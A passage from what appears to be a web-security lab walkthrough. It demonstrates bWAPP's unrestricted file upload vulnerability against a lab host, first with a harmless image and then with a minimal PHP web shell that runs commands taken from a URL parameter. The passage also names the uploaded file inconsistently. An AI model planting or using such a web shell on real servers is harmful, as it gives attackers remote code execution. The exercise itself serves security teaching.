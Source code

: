     - Return to the file upload webpage at <http://192.168.13.35/unrestricted_file_upload.php>.

    - We will upload an image that has already been added to the desktop of the computer.
      
      - Select Browse.
      
      - From the desktop, select the image `sample_picture.jpg`. This should take you back to the file upload webpage and show the image selected.
      
      - Select Upload.

      - It should display the following image:

        ![On the Unrestricted File Upload page of the bWAPP website, a red arrow points to the message, "The image has been uploaded here."](Images/LFI7.png) 
  
    - Select **here** to take you to the image that was just uploaded. This will take you to a page to display the image!

    - Point to the URL of this page: <http://192.168.13.35/images/sample_picture.jpg>. Specifically note the `.jpg` extension.
 
    - Return to the terminal and access the images directory, then show that the image we uploaded was added to the filesystem: 
 
      - `cd images`
 
      - `ls sample-image.jpg`
 
    - This step shows the intended functionality of the web application: to allow a user to upload image files to the web application's local filesystem, which can later be accessed and displayed by the user.
  
5. Next we'll upload a malicious PHP script. We will use a custom PHP script called `script.php`, which is designed to enable a malicious user to execute code remotely. 

    - This script looks as follows (note that you don't need to understand the syntax of this script just yet):

          <?php
          $command = $_GET['cmd'];
          echo system($command);
          ?>
 
    - Return to the desktop of your Vagrant machine and note that the script has already been created and added there.
